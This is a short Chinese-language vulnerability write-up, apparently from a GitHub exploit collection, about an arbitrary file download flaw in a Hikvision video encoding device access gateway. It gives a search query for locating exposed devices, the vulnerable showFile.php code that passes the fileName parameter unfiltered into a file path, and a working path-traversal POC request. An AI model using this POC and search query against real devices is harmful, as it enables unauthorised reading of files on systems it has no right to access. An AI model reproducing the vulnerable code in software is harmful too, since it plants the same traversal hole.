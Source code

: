 # 

# HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登录页面

![image-20220519174129368](./images/202205191743965.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载

```
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```

POC

```
/serverLog/showFile.php?fileName=../web/html/main.php
```

![image-20220519174337483](./images/202205191743535.png)
